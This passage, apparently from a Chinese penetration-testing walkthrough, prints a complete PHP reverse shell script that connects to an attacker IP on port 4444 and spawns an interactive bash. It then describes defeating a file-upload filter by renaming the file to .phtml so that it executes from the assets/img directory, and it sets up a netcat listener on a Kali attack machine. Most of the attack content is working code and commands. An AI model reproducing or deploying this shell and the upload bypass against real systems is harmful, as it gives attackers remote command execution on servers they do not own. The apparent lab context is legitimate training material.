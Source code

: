 ```
`<?php``set_time_limit (0);``$VERSION = "1.0";``$ip = '192.168.7.3'; // CHANGE THIS``$port = 4444;       // CHANGE THIS``$chunk_size = 1400;``$write_a = null;``$error_a = null;``$shell = 'uname -a; w; id; /bin/bash -i';``$daemon = 0;``$debug = 0;``//``// Daemonise ourself if possible to avoid zombies later``//``// pcntl_fork is hardly ever available, but will allow us to daemonise``// our php process and avoid zombies. Worth a try...``if (function_exists('pcntl_fork')) {``// Fork and have the parent process exit``$pid = pcntl_fork();``if ($pid == -1) {``printit("ERROR: Can't fork");``exit(1);``}``if ($pid) {``exit(0); // Parent exits``}``// Make the current process a session leader``// Will only succeed if we forked``if (posix_setsid() == -1) {``printit("Error: Can't setsid()");``exit(1);``}``$daemon = 1;``} else {``printit("WARNING: Failed to daemonise. This is quite common and not fatal.");``}``// Change to a safe directory``chdir("/");``// Remove any umask we inherited``umask(0);``//``// Do the reverse shell...``//``// Open reverse connection``$sock = fsockopen($ip, $port, $errno, $errstr, 30);``if (!$sock) {``printit("$errstr ($errno)");``exit(1);``}``// Spawn shell process``$descriptorspec = array(` `0 => array("pipe", "r"), // stdin is a pipe that the child will read from` `1 => array("pipe", "w"), // stdout is a pipe that the child will write to` `2 => array("pipe", "w")   // stderr is a pipe that the child will write to``);``$process = proc_open($shell, $descriptorspec, $pipes);``if (!is_resource($process)) {``printit("ERROR: Can't spawn shell");``exit(1);``}``// Set everything to non-blocking``// Reason: Occsionally reads will block, even though stream_select tells us they won't``stream_set_blocking($pipes[0], 0);``stream_set_blocking($pipes[1], 0);``stream_set_blocking($pipes[2], 0);``stream_set_blocking($sock, 0);``printit("Successfully opened reverse shell to $ip:$port");``while (1) {``// Check for end of TCP connection``if (feof($sock)) {``printit("ERROR: Shell connection terminated");``break;``}``// Check for end of STDOUT``if (feof($pipes[1])) {``printit("ERROR: Shell process terminated");``break;``}``// Wait until a command is end down $sock, or some``// command output is available on STDOUT or STDERR``$read_a = array($sock, $pipes[1], $pipes[2]);``$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);``// If we can read from the TCP socket, send``// data to process's STDIN``if (in_array($sock, $read_a)) {``if ($debug) printit("SOCK READ");``$input = fread($sock, $chunk_size);``if ($debug) printit("SOCK: $input");``fwrite($pipes[0], $input);``}``// If we can read from the process's STDOUT``// send data down tcp connection``if (in_array($pipes[1], $read_a)) {``if ($debug) printit("STDOUT READ");``$input = fread($pipes[1], $chunk_size);``if ($debug) printit("STDOUT: $input");``fwrite($sock, $input);``}``// If we can read from the process's STDERR``// send data down tcp connection``if (in_array($pipes[2], $read_a)) {``if ($debug) printit("STDERR READ");``$input = fread($pipes[2], $chunk_size);``if ($debug) printit("STDERR: $input");``fwrite($sock, $input);``}``}``fclose($sock);``fclose($pipes[0]);``fclose($pipes[1]);``fclose($pipes[2]);``proc_close($process);``// Like print, but does nothing if we've daemonised ourself``// (I can't figure out how to redirect STDOUT like a proper daemon)``function printit ($string) {``if (!$daemon) {``print "$string\n";``}``}``?>`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

点击上传后提示.php文件不能上传，我们改下包试试

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

经过测试phtml可以上传并解析，并且在assets/img目录下找到上传文件

### 反弹Shell

1。kali攻击机监听4444端口

```
nc -lvvp 4444
```
